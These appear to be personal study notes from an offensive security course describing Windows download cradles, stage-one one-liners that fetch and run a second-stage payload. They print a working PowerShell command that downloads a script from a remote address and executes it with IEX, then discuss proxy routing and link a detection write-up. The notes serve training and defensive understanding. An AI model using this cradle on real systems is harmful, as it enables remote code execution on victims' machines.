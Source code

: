 ### Download Cradles

OSEP has shown a very strong bias to Windows oriented client side attacks so far. I do wonder if I'll ever get to discussing Linux Download Cradles...

Anywho, a Download Cradle is stage one. It is a one-liner that serves to pull down and run stage two, whatever that may be. Throughout OSCP the goto Windows Cradle was as follows:
```powershell
powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.0.1/run.ps1') | IEX
```

OSEP looks for us to advance on this by considering how this stage one download works, and how subtle it really is. The `DownloadString` invocation is not the issue per se, but rather we need to think about where the traffic resulting from that request is going. Namely we need to think about how and whether our traffic is being routed via a proxy on its way between the attack machine and the victim machine.

A side note of all this is the following note on detection engineering for download cradles. Not very relevant in the context of an offensive security course, however valuable to think about whenever we put our blue team hat on again: https://mgreen27.github.io/posts/2018/04/02/DownloadCradle.html

